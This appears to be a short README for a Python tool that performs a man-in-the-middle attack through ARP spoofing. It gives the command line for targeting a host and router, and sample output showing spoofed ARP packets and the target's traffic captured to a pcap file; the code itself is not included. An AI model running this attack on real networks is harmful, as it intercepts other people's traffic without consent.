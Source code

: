 # MITM-using-ArpSpoofing
Man in the middle attack using Arp Spoofing.


### Getting Started
```
Gil@kali:/root/Desktop$ python MITM.py <interface> <TargetIP> <RouterIP> <pcap file path>
```
for Example:
```
Gil@kali:/root/Desktop$ python MITM.py eth0 192.168.1.52 192.168.1.100 /root/Desktop/Gil
```
output:
```
The pcap file was created in the path : /root/Desktop/Gil

Arp Spoofing is Running... 156 packets of ARP have been sent So far.
---------------------------------------------------------------------------

Sniffer is Running... 768 packets From the Target have been collected so far.
-----------------------------------------------------------------------------
```
## Requirements

* Linux OS
* Python 3.7 

## Authors
Gil Matitiyahu
